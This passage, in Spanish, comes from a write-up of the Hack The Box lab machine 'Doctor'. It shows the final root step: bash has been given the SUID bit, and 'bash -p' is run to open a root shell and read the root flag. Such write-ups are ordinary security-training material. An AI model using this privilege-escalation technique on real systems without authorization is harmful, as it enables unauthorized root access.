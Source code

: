 De esta manera conseguiremos que `/bin/bash` pueda ser ejecutada como **root** por mi sin contraseña de la siguiente manera:

```bash wrap=false
shaun@doctor:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
shaun@doctor:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
shaun@doctor:~$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt 
2fc2f193d4b28dfeec...
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/278)

---